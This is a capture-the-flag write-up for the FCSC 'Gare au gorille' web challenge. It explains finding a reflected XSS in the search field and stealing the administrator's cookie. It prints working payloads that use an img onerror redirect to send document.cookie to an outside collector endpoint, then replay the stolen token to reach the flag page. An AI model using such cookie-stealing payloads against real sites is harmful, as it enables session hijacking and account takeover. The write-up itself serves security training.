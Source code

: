 # Gare au gorille

> I've built an unpretentious site to store my memes collection!
>
> https://gare-au-gorille.france-cybersecurity-challenge.fr/

## Analysis

We arrive on a site composed of two pages: the first one is composed of a collection of memes and an input search and the second one of a report form.

We arrive on a site composed of two pages: the first one is composed of a memes collection and an input search and the second one of a report form.

After a few tries we realize that the site is vulnerable to XSS via this input. With this url
```https://gare-au-gorille.france-cybersecurity-challenge.fr/?search=XSS+attack``` it will display "XSS attack".

Looking at the network activity via the inspector we see that there is a token in the cookie ("token=xxxxxxxx").

Furthermore the flag page ```https://gare-au-gorille.france-cybersecurity-challenge.fr/flag```tells us "This page is only accessible by the administrator". So this is a test for stealing the administrator cookie.

Now we have all the information to trade!

## Resolution

We create an endpoint on requestbin to retrieve the cookie once the admin has clicked on our malicious link.

And we create our payload:

```
https://gare-au-gorille.france-cybersecurity-challenge.fr?search=<img src=x onerror=document.location.href='//eomtg1jcz48suc3.m.pipedream.net?'+document.cookie>
```

The image is present but no response from the site. Looking at the source code we see that the "**+**" has been replaced by a space. So we rewrite without the "**+**".

```
https://gare-au-gorille.france-cybersecurity-challenge.fr?search=<img src=x onerror=document.location.href='//eomtg1jcz48suc3.m.pipedream.net?'.concat(document.cookie)>
```

That's good, we receive a local response. It only remains to send it to the admin and it's done. We recover the admin token: ```token=O9Mv3sFaQD1UpQRLCXVOCzCi0dXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX```

Now we just have to go to the */flag* page and manually edit the headers of our request to replace our token with the admin's token and we get the FCSC{XXXXXXXXXXXXXXXXX} flag.